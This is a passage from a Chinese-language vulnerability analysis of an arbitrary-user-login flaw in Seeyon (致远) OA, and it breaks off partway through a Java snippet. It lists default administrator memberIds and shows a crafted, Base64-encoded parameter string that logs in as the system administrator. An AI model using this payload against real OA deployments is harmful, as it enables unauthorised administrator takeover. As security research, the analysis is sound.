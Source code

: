 随便挑一个给`linkType`赋值就可以绕过最后一个条件。

接下来就来到最关键的一步

[![](assets/1708507083-74b66c4d3e5afdfe2fe15800c4604d42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220180406-6236f728-cfd7-1.png)

这段代码通过我们拿到的`memberId`作为参数调用了`this.orgManager.getMemberById`，这个方法大致就是通过`memberId`查找对应的用户，从别的师傅文章中得知，致远中存在几个默认的用户。

```plain
"5725175934914479521"   "集团管理员"
"-7273032013234748168"  "系统管理员"
"-7273032013234748798"  "系统监控"
"-4401606663639775639"  "审计管理员"
```

我们只需要通过以上`memberId`就能查询出管理员用户信息，在 422 行，用新创建的`User`对象重新设置了`session`，并且将查询出来的用户信息设置到了`currentUser`对象中，这才导致了任意用户登录漏洞。

**参数编码解码代码**

```plain
public class Test {
    public static void main(String[] args) {
            System.out.println(encodeString("L=message.link.bbs.open&M=-7273032013234748168&T=9999999999999"));
    }

    public static String decodeString(String encodeString) {
        if (encodeString == null) {
            return null;
        } else {
            try {
                encodeString = new String((new Base64()).decode(encodeString.getBytes()));
            } catch (Exception var3) {
                System.out.println(var3.getMessage());
            }

            char[] encodeStringCharArray = encodeString.toCharArray();
```